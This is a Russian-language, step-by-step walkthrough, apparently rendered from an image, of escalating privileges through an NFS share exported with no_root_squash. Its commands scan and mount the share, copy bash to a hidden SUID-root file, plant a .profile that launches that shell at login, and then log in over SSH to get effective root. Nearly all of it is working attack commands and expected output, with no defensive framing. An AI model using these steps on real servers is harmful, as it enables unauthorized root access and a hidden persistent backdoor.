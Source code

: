 **Конфигурация сервера (192.168.1.100):**
```bash
# /etc/exports
/home 192.168.1.0/24(rw,sync,no_root_squash)
```

**Шаг 1: Обнаружение и монтирование шары**
```bash
# Поиск NFS-серверов
nmap -sV -p111,2049 192.168.1.100

# Проверка экспортированных директорий
showmount -e 192.168.1.100
# Экспорт списка для 192.168.1.100:
# /home 192.168.1.0/24

# Монтирование шары
mkdir /mnt/nfs_home
sudo mount -t nfs 192.168.1.100:/home /mnt/nfs_home
```

**Пояснения:**  
- Монтирование позволяет работать с удалёнными файлами как с локальными  
- Опция `no_root_squash` сохраняет root-привилегии клиента  

---

**Шаг 2: Создание SUID-шелла**
```bash
# Копирование bash в шару
cp /bin/bash /mnt/nfs_home/user/.hidden_shell

# Установка SUID-бита
chmod 4777 /mnt/nfs_home/user/.hidden_shell

# Создание скрипта для автоматического запуска
cat > /mnt/nfs_home/user/.profile <<'EOF'
#!/bin/bash
if [ -x /home/user/.hidden_shell ]; then
    /home/user/.hidden_shell -p
fi
EOF
```

**Пояснения:**  
- SUID-бит (4777) позволяет запускать bash с правами владельца (root)  
- `.profile` автоматически запустит шелл при входе пользователя  

---

**Шаг 3: Получение доступа**
```bash
# Подключение по SSH (запустит .profile)
ssh user@192.168.1.100

# Проверка привилегий
whoami  # root
id
# uid=1000(user) gid=1000(user) euid=0(root) groups=0(root)
```
